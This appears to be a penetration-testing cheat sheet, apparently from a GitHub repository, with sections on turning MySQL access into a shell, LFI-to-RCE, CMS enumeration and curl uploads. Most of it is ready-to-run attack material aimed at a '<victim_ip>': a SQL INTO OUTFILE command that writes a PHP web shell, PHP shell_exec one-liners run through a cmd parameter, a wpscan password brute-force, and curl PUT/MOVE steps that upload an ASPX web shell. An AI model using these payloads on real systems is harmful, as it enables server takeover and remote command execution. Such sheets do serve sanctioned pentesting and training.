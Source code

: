 ## SCENARIOS

### MySQL to SHELL
```bash
#Put shell on db to victim system;
 select 1,2,3,'<?php system($_GET[cmd]); ?>',6,7,8,9,10 INTO OUTFILE '/var/www/brc_shell.php';

#Call the shell and code execution;
 http://<victim_ip>/shell.php?cmd=ifconfig


LFI to RCE
#Inject shell to victim system;
 <?php echo shell_exec($_GET["cmd"]); ?>
 
#Call the shell and code execution;
 http://<victim_ip>/shell.php?cmd=ls -la
 ```
******************************************************************************************************************************

# CMS Enumeration
```bash 
#Wordpress
 wpscan --url http://<victim_ip>/ --enumerate p --enumerate u --enumerate t  -token <api-token>

 wpscan --url http://<ip> --wordlist=/root/Desktop/fsociety_filtered.txt --username elliot --threads 20

#Joomla
 joomscan -u  http://<victim_ip>/ --enumerate-components

#Drupal
 ./droopescan scan drupal -u <victim_ip>

# magento (cd/opt)

php magescan.phar -vv scan:all http://<ip>


# Sharepoint 

1. default location for sharepoit 
  http://<ip>/_layouts/viewlsts.aspx 
```
******************************************************************************************************************************

# CURL
```bash 
1. Uploading files to the victim system and changing the extension of the file uploaded to the victim system;
 echo worldofpentest > test.txt                       #create file
 curl -X PUT http://<victim_ip>/brc.txt -d @test.txt  #put to target
 curl http://<victim_ip>/brc.txt                      #call the file
 
2. Victim system put to shell  with curl;
 cp /usr/share/webshells/aspx/cmdasp.aspx .
 curl -X PUT http://<victim_ip>/brc_shell.txt -d @cmdasp.aspx
 curl -X MOVE -H 'Destination:http://<victim_ip>/shell.aspx' http://<victim_ip>/brc_shell.txt
  
 Note: When we shell the victim system as above, we can get run time error in the system. 
```